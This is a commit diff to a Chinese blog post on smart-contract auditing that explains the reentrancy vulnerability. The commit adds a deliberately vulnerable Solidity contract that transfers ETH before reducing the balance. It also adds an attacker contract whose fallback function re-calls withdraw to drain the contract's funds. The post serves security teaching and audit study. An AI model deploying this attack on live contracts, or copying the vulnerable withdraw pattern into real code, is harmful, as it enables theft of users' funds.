

Before and after one commit to ssr-zjm/ssr-zjm.github.io, a Jekyll site: the page built from _posts/2019-12-19-智能合约审计-重入漏洞.md, in a window 1280 px wide and 1400 px high, scrolled down 931 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1737 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2019-12-19-智能合约审计-重入漏洞.md

````diff
--- a/_posts/2019-12-19-智能合约审计-重入漏洞.md
+++ b/_posts/2019-12-19-智能合约审计-重入漏洞.md
@@ -7,15 +7,13 @@ pulished: true
 excerpt_separator: "#"
 ---
 
-描述：
-    漏洞合约中某个函数中，使用call()方法发送eth,若eth的接收者为一个合约地址，则会触发该合约的fallback()函数。若该合约是攻击者的恶意合约，攻击者可以在fallback()函数中重新调用漏洞合约的上述函数，导致重入攻击
+描述：漏洞合约中某个函数中，使用call()方法发送eth,若eth的接收者为一个合约地址，则会触发该合约的fallback()函数。若该合约是攻击者的恶意合约，攻击者可以在fallback()函数中重新调用漏洞合约的上述函数，导致重入攻击
 
 核心问题：重要的合约变量在“重入”的过程中没有被修改，从而绕过了限制
 
 # Fallback函数
 
 概念:
-
     回退函数，是合约里的特殊无名函数，有且仅有一个。它在合约调用没有匹配到函数签名，或者调用没有带任何数据时被自动调用。
 
 触发场景：
@@ -26,21 +24,103 @@ excerpt_separator: "#"
 
 # 漏洞流程
 ![重入漏洞](/assets/demo/chongru.png)
+# 漏洞合约分析
+```java
+pragma solidity ^0.4.24;
 
+contract ReentrancyGame {
+
+  mapping (address => uint) public credit; //credit表示存储用户的余额
+
+  event Deposit(address _who, uint value);  //Deposit表示充值
+  event Withdraw(address _who, uint value);
+
+  function deposit() payable public returns (bool) {
+    credit[msg.sender] += msg.value; //credit调用deposit()函数进行充值使用msg.value进行ETH发送
+    emit Deposit(msg.sender, msg.value);
+    return true;
+  }
+
+  function withdraw(uint amount) public returns (bool) { //withdraw提币函数
+    if (credit[msg.sender]>= amount) {
+      msg.sender.call.value(amount)();
+      credit[msg.sender]-=amount;
+      emit Withdraw(msg.sender, amount);
+      return true;
+    }
+    return false;
+  }
+
+  function creditOf(address to) public returns (uint) {
+    return credit[to];
+  }
+}
+```
+漏洞点：从提币开始，首先校验credit是否大于amount(本次提现的ETH),然后使用call.value进行转账，然后再扣除余额。这里漏洞点就出在我们先使用call.value对用户进行转账，然后再减少余额。就是因为这种情况，攻击者可以反复进行withdraw(),在进入withdraw()之前，第一步的校验仍然有效，在进入withdraw()之后，credit(余额)并没有减少，第一步的校验仍然有效，攻击者才能源源不断的从合约中提取ETH
+----------
+# 攻击者合约
 ```java
-/**
- * 保存上一次请求的结果
- */
-var lastResult = Result.SUCCESS
+pragma solidity ^0.4.24;
 
-/**
- * 已经加载好的页面号
- */
-var loadedPageIndex = -1
+contract ReentrancyGame {
 
-/**
- * 当前正在加载的页面, 在页面加载完成后, 就会被置为 -1
- * 所以用它来判断是否正在加载,
- */
-var loadingPageIndex = -1
+  mapping (address => uint) public credit;
+
+  event Deposit(address _who, uint value);
+  event Withdraw(address _who, uint value);
+
+  function deposit() payable public returns (bool) {
+    credit[msg.sender] += msg.value;
+    emit Deposit(msg.sender, msg.value);
+    return true;
+  }
+
+  function withdraw(uint amount) public returns (bool) {
+    if (credit[msg.sender]>= amount) {
+      msg.sender.call.value(amount)();
+      credit[msg.sender]-=amount;
+      emit Withdraw(msg.sender, amount);
+      return true;
+    }
+    return false;
+  }
+
+  function creditOf(address to) public returns (uint) {
+    return credit[to];
+  }
+
+  function checkBalance() public constant returns (uint){
+      return this.balance;
+  }
+}
+
+contract ReentrancyAttack {   //调用attack()函数对漏洞合约进行远远不断的偷取ETH
+  ReentrancyGame public regame;
+  address owner;
+
+  function ReentrancyAttack (ReentrancyGame addr) payable {
+    owner = msg.sender;
+    regame = addr;
+  }
+
+  function attack() public returns (bool){
+    regame.deposit.value(1)();
+    regame.withdraw(1);
+    return true;
+  }
+
+  function geteth() public returns (bool){
+    owner.transfer(this.balance);
+    return true;
+  }
+
+  function checkBalance() public constant returns (uint){
+      return this.balance;
+  }
+
+  function() public payable {
+    regame.withdraw(1);
+  }
+}
 ```
+# 使用Remix进行调试
````
